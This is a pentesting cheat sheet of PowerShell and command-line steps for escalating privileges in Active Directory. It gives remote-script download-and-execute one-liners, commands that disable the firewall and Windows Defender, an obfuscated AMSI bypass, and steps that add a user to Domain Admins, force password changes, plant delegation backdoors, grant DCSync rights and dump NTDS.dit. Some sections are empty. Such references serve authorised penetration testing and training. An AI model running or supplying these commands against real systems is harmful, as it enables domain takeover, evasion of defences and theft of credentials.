 ```yaml
---
layout: default
title: Active Directory Privilege Escalation with Powershell
parent: Pentesting
categories: Pentesting Windows
grand_parent: Cheatsheets
has_children: true
---
```

# {{ page.title}}

<!-- vscode-markdown-toc -->
* 1. [PRE-REQUISITE: Installing PowerUp and PowerSploit](#PRE-REQUISITE:InstallingPowerUpandPowerSploit)
* 2. [PRE-REQUISITE: SECURITY TAMPRING](#PRE-REQUISITE:SECURITYTAMPRING)
* 3. [LATERAL MOVEMENT](#LATERALMOVEMENT)
* 4. [PRIVESC](#PRIVESC)
* 5. [TOKEN IMPERSONATION](#TOKENIMPERSONATION)
* 6. [ADD MEMBER](#ADDMEMBER)
* 7. [FORCE PASSWORD CHANGE](#FORCEPASSWORDCHANGE)
* 8. [KERBEROASTING](#KERBEROASTING)
* 9. [ABUSING DELEGATION](#ABUSINGDELEGATION)
* 10. [DUMP NTDS.DIT](#DUMPNTDS.DIT)

<!-- vscode-markdown-toc-config
	numbering=true
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->

##  1. <a name='PRE-REQUISITE:InstallingPowerUpandPowerSploit'></a>PRE-REQUISITE: Installing PowerUp and PowerSploit

- [PowerUp CheatSheet](https://github.com/HarmJ0y/CheatSheets/blob/master/PowerUp.pdf)
- [PowerSploit CheatSheet](https://github.com/HarmJ0y/CheatSheets/blob/master/PowerSploit.pdf)

```powershell
# ActiveDirectory Module
iex (new-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/ADModule/master/Import-ActiveDirectory.ps1');Import-ActiveDirectory

# PowerUp Module
iex (new-Object Net.WebClient).DownloadString('http://bit.ly/1PdjSHk'); . .\PowerUp.ps1

# PowerSploit Module
iex (new-Object Net.WebClient).DownloadString('http://bit.ly/28RwLgo'); . .\PowerSploit.ps1
```

##  2. <a name='PRE-REQUISITE:SECURITYTAMPRING'></a>PRE-REQUISITE: SECURITY TAMPRING
```powershell
# windows firewall showing / disabling config 
netsh advfirewall set allprofiles state off
netsh advfirewall show allprofiles

# powershell execution protection bypass
powershell -ep bypass

# powershell fullLanguage / Constrained language mode
# https://seyptoo.github.io/clm-applocker/
$Env:__PSLockdownPolicy
reg query "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\Environment" /v __PSLockdownPolicy
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\Environment" /v __PSLockdownPolicy /t REG_SZ /d ConstrainedLanguage /f
/v fDenyTSConnections /t REG_DWORD /d 1 /f
$ExecutionContext.SessionState.LanguageMode
$ExecutionContext.SessionState.LanguageMode ConstrainedLanguage

# powershell remoting enable / verify (Needs Admin Access)
Enable-PSRemoting

# RDP : enable / disable / check access
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 1 /f
reg query "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections

# WMI remoting as user authenticated on the Da / execution with DC privileges
Set-RemoteWMI -UserName johndoe -ComputerName dcorp-dc.dollarcorp.moneycorp.local -namespace 'root\cimv2' -Verbose

# Windows Defender disabling features
Set-MpPreference -DisableRealtimeMonitoring $true -Verbose
Set-MpPreference -DisableIOAVProtection $true

# Windows Defender AMSI Bypass  
# https://0x00-0x00.github.io/research/2018/10/28/How-to-bypass-AMSI-and-Execute-ANY-malicious-powershell-code.html
sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

##  3. <a name='LATERALMOVEMENT'></a>LATERAL MOVEMENT
```powershell
Invoke-DCOM
Invoke-SMBExec
Invoke-PsExec
Invoke-Command
mstsc.exe
```

##  4. <a name='PRIVESC'></a>PRIVESC
```
Get-Hotfix
```

##  5. <a name='TOKENIMPERSONATION'></a>TOKEN IMPERSONATION

##  6. <a name='ADDMEMBER'></a>ADD MEMBER
```
# OPTION 1
net group "Domain admins" dagreat /add /domain

# OPTION 2
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('<Domain>\dagreat',$SecPassword)
Add-DomainGroupMember -Identity 'Domain Admins' -Members 'jomivz' -Credential $Cred

# VERIFICATION
Get-DomainGroupMember -Identity 'Domain Admins'
```


##  7. <a name='FORCEPASSWORDCHANGE'></a>FORCE PASSWORD CHANGE
```
# OPTION 1
net user dagreat Password123! /domain

# OPTION 2
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('<Domain>\dagreat',$SecPassword)
$UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
Set-DomainUserPassword -Identity dagreat -AccountPassword $UserPassword -Credential $Cred
```

##  8. <a name='KERBEROASTING'></a>KERBEROASTING
```

```
##  9. <a name='ABUSINGDELEGATION'></a>ABUSING DELEGATION
```
# configure the CD backdoor with proto transition
Get-ADComputer -Identity <ServiceA> | Set-ADAccountControl -TrustedToAuthForDelegation $true
Set-ADComputer -Identity DC01 -Add @{'msDS-AllowedDelegationTo'=@('CIFS/DC01.corp')}

# configure a RBCD backdoor
# ServiceB has 'msDS-AllowedToActOnBehalfOfOtherIdentity' set, pointing to ServiceA
Set-ADComputer <ServiceB> -PrincipalAllowedToDelegateToAccount <ServiceA>

# trigger the backdoor
[Reflection::Assembly]::LoadWithPartialName('System.IdentityModel') | out-null
$idToImpersonate = New-Object System.Security.Principal.WindowsIdentity @('<DAgreat>')
$idToImpersonate.Impersonate()
```

# Set A DCSYNC
```
Add-ObjectAcl -TargetDistinguishedName "dc=<DC01>,dc=local" -PrincipalSamAccountName <sogreatW -Rights DCSync -Verbose
```

##  10. <a name='DUMPNTDS.DIT'></a>DUMP NTDS.DIT
```
ntdsutil.exe "activate instance ntds" "ifm" "Create Full C:\Temp\ntds.dmp" quit quit
```
